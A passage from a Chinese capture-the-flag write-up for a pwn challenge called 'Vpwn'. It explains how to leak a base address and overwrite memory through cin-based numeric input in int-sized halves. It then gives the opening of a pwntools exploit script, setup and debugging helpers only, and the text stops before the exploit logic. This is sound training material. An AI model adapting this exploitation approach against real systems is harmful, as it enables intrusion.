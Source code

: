 由于题目使用了 `cin` 这样十分 "智能" 的函数，我们需要**以数字的方式输入**而不是使用 `p32()` 打包，并且由于容器对数操作以 `int` 为单位，具有**长度限制以及正负符号位问题**，泄露基地址和修改地址均需要分成两部分处理，**这过程可能会造成接收或修改的数值大小有损失，需要通过动态调整来修改补足**，具体可见 `exp`

#### 1.3 exp

```python
#!/usr/bin/env python

'''
    author: Lufiende
'''

from pwn import *
from LibcSearcher import *
import ctypes

filename = "Vpwn_patched"
libcname = "/home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/libc6_2.35-0ubuntu3.8_amd64/lib/x86_64-linux-gnu/libc.so.6"
filearch = 'amd64'
isAttach = 0
context.log_level = 'debug'
context.os = 'linux'
context.arch = filearch
context.terminal = ["/mnt/c/Windows/System32/cmd.exe", '/c', 'start', 'wsl.exe']

elf = context.binary = ELF(filename)
if libcname:
    libc = ELF(libcname)

gdbscript = '''
b *$rebase(0x139f)
set debug-file-directory /home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/libc6-dbg_2.35-0ubuntu3.8_amd64/usr/lib/debug
set directories /home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/glibc-source_2.35-0ubuntu3.8_all/usr/src/glibc/glibc-2.35
'''

processarg = {"LD_PRELOAD":"/home/lufiende/Tools/CTF/Pwn/Glibc/gcc/gcc-12-glibc2.35-ubuntu22-amd64/usr/lib/x86_64-linux-gnu/libstdc++.so.6:/home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/libc6_2.35-0ubuntu3.8_amd64/lib/x86_64-linux-gnu/libm.so.6"}


def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript = gdbscript, env=processarg)
    elif args.REMOTE:
        return remote(host, port)
    elif args.ATTACH:
        global isAttach
        isAttach = 1
        return process(elf.path, env=processarg)
    else:
        return process(elf.path, env=processarg)

def dbg():
    if isAttach:
        gdb.attach(io, gdbscript = gdbscript)

io = start()

############################################

def push(num):
```
